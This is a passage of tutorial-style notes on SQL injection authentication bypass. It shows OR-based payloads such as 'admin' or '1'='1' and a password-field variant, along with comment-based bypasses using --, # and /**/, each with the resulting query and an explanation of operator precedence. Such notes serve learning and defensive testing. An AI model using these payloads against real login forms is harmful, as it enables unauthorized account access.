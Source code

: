 ```sql
SELECT * FROM logins WHERE username=''' AND password = 'something';
```

### OR injection

The basic query is :

```sql
SELECT * FROM logins WHERE username='admin' AND password = 'p@ssw0rd';
```

Update username with `admin' or '1'='1` :

```sql
SELECT * FROM logins WHERE username='admin' OR '1'='1' AND password = 'notPassword';
```

`AND` is executed before `OR` thus :

1. `'1'='1' AND password='notPassword'` is false
2. Then `username='admin' OR false`

If the username is `admin`, it returns `true` and the query is accepted.

To bypass the authentication, updates the `password` value by `notPassword' OR '1'='1`:

```sql
SELECT * FROM logins WHERE username='notAdmin' AND password = 'notPassword' OR '1'='1';
```

The execution is :

1. `username='notAdmin' AND password='notPassword'` is false
2. Then `false OR '1'='1'` is true

### Using comments

There are several comment symbols :

| Payload | URL Encoded |
| ------- | ----------- |
| `--`    |             |
| `#`     | `%23`       |
| `/**/`  |             |

```sql
SELECT username FROM logins; -- Selects usernames from the logins table 
SELECT * FROM logins WHERE username = 'admin'; # You can place anything here AND password = 'something'
```

If you pass SQLi in the URL, you must change the `#` by `%23` (url encoded).

Auth bypass with comments :

```sql
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```
